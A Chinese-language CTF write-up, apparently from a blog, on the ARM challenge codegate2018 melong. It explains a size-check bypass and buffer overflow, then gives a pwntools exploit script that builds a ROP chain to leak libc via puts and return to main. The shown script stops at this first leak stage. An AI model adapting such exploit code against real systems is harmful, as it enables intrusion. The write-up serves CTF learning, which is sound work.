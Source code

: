 key3将lr（返回地址）读入r3。找到main函数中调用key3函数的位置，+4即为返回地址。

### codegate2018 melong

这个执行文件中，用了很多浮点库函数，加减乘除和浮点比较等等，所以看起来有点抽象。

漏洞点在PT中的size，输入一个无法malloc的大小，就能绕过检查。

write_diary使用size的低字节作为输入长度，存在溢出。

多次运行程序可以发现，libc加载地址没有变化，所以可以第一次泄露libc，第二次getshell。

我从[m4x](https://m4x.fun/post/how-2-pwn-an-arm-binary/#codegate2018---melong)师傅那里看到一个方法，但不明白是如何返回的main函数。。。

> 2020-10-18更新
>
> 先前LR中所存储的地址是某个函数调用留下的，第一次ROP puts执行完毕，回到了这个地址，pop了PC。

```python
#!/usr/bin/env python3

from pwn import *

localfile = "./melong"
locallibc = "libc.so.6"
context.binary = localfile
context.log_level = "debug"
pf      = lambda name,num           :log.info(name + ": 0x%x" % num)
g       = lambda x                  :next(libc.search(asm(x)))

def check():
    io.recvuntil("Type the number:")
    io.sendline("1")
    io.recvuntil("Your height(meters) : ")
    io.sendline("1")
    io.recvuntil("Your weight(kilograms) : ")
    io.sendline("1")

def PT(num):
    io.recvuntil("Type the number:")
    io.sendline("3")
    io.recvuntil("How long do you want to take personal training?\n")
    io.sendline(str(num))

def write_diary(content):
    io.recvuntil("Type the number:")
    io.sendline("4")
    io.send(content)

def exit():
    io.recvuntil("Type the number:")
    io.sendline("6")

# gadgets
# 0x00011bbc : pop {r0, pc}
def exp():
    g1 = 0x00011bbc

    check()
    # gdb.attach(io, """b *0x11288
    # b *0x1118C
    # """)
    PT(-1)
    payload1 = b"A"*0x54 + p32(g1) + p32(elf.got["puts"]) + p32(elf.plt["puts"]) + p32(elf.sym["main"])*6
    write_diary(payload1)
```